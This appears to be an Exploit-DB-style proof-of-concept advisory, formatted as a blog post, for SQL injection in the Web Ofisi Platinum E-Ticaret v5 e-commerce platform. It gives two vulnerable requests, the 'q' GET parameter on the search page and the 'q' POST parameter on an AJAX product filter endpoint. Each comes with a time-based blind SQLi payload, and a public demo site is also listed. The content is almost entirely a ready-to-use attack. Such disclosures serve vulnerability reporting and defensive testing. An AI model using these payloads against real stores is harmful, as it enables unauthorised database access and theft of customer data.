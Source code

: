 ```yaml
---
layout:     post
title:      "Web Ofisi Platinum E-Ticaret 5 - 'q' SQL Injection"
date:       2019-07-19 12:01
author:     "Ahmet Ümit BAYRAM"
category:   exploit
tags:       [sql, sqli, sql injection, exploit-db]
---
```


# Exploit Title: Web Ofisi Platinum E-Ticaret 5 - 'q' SQL Injection
# Date: 2019-07-19
# Exploit Author: Ahmet Ümit BAYRAM
# Vendor: https://www.web-ofisi.com/detay/platinum-e-ticaret-v5.html
# Demo Site: http://demobul.net/eticaretv5/
# Version: v5
# Tested on: Kali Linux
# CVE: N/A

----- PoC 1: SQLi -----

Request: http://localhost/[PATH]/arama?kategori=&q=
Vulnerable Parameter: q (GET)
Payload: 0'XOR(if(now()=sysdate(),sleep(0),0))XOR'Z

----- PoC 2: SQLi -----

Request: http://localhost/[PATH]/ajax/productsFilterSearch
Vulnerable Parameter: q (POST)
Payload:
kategori=&pageType=arama&q=0'XOR(if(now()=sysdate()%2Csleep(0)%2C0))XOR'Z&sayfa=1
